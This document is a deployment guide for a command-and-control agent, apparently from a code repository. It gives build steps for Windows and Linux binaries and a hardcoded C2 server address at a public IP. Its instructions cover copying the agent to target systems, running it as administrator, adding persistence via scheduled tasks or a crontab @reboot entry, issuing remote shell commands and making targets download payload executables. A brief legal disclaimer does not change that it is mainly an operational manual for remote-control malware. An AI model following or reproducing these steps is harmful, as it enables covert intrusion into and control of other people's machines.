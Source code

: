# Quick Deployment Guide

## Prerequisites

1. **C2 Server Running**: Ensure your C2 server is running on `http://150.136.130.59:3002`
2. **Database Ready**: MySQL database with C2 tables should be initialized
3. **Network Access**: Target systems need network access to the C2 server

## Step 1: Test C2 Server Integration

```bash
# Test the C2 endpoints
node test_c2_agent.js
```

This will verify that:
- Server is reachable
- Agent registration works
- Command retrieval works
- Result submission works

## Step 2: Build the Agent

### Windows
```batch
# Run the build script
build_agent.bat

# Or manually with Visual Studio
cl /EHsc /std:c++17 C2Agent.cpp /link ws2_32.lib iphlpapi.lib wininet.lib /out:C2Agent.exe
```

### Linux
```bash
# Install dependencies
sudo apt-get update
sudo apt-get install build-essential libcurl4-openssl-dev libjsoncpp-dev

# Build the agent
chmod +x build_agent_linux.sh
./build_agent_linux.sh
```

## Step 3: Deploy Agent

### Windows Deployment
1. Copy `C2Agent.exe` to target system
2. Run as administrator: `C2Agent.exe`
3. For persistence, add to startup or create scheduled task

### Linux Deployment
1. Copy `C2Agent` to target system
2. Make executable: `chmod +x C2Agent`
3. Run: `./C2Agent`
4. For persistence, add to crontab: `@reboot /path/to/C2Agent`

## Step 4: Monitor in Dashboard

1. Access your admin dashboard
2. Navigate to the "C2" tab
3. You should see the agent appear in the agents list
4. The agent will show as "active" with system information

## Step 5: Send Commands

1. Select an agent from the list
2. Choose command type (shell or download)
3. Enter command data
4. Click "Send Command"
5. Monitor results in the "Results" tab

## Example Commands

### Shell Commands
- Windows: `dir`, `whoami`, `systeminfo`
- Linux: `ls -la`, `whoami`, `uname -a`

### Download Commands
- `http://example.com/payload.exe`
- `https://github.com/user/repo/releases/download/v1.0/tool.exe`

## Troubleshooting

### Agent Not Appearing
- Check C2 server URL in agent configuration
- Verify network connectivity
- Check firewall settings
- Review server logs

### Commands Not Executing
- Verify agent is registered and active
- Check command syntax
- Review result logs for errors
- Ensure agent has proper permissions

### Build Issues
- Install required development packages
- Check compiler version compatibility
- Verify library dependencies

## Security Notes

⚠️ **Important Security Considerations**:

1. **Use HTTPS**: Configure the agent to use HTTPS for encrypted communication
2. **Authentication**: Consider adding authentication headers to agent requests
3. **Network Isolation**: Deploy in isolated network environments
4. **Monitoring**: Monitor agent behavior and network traffic
5. **Legal Compliance**: Only deploy on systems you own or have permission to test

## Configuration Options

### Agent Configuration
Edit these constants in the agent source code:

```cpp
const char* C2_SERVER = "http://150.136.130.59:3002";
const int HEARTBEAT_INTERVAL = 30000;      // 30 seconds
const int COMMAND_CHECK_INTERVAL = 5000;   // 5 seconds
```

### Server Configuration
The agent works with your existing C2 server configuration. No additional server setup required.

## Next Steps

1. **Test in Lab Environment**: Deploy and test in a controlled environment first
2. **Customize Commands**: Add custom command types as needed
3. **Enhance Security**: Implement additional security measures
4. **Scale Deployment**: Deploy to multiple targets as needed
5. **Monitor Performance**: Track agent performance and optimize as needed

## Support

For issues and questions:
1. Check the troubleshooting section
2. Review the comprehensive README
3. Test in a controlled environment
4. Ensure proper network configuration 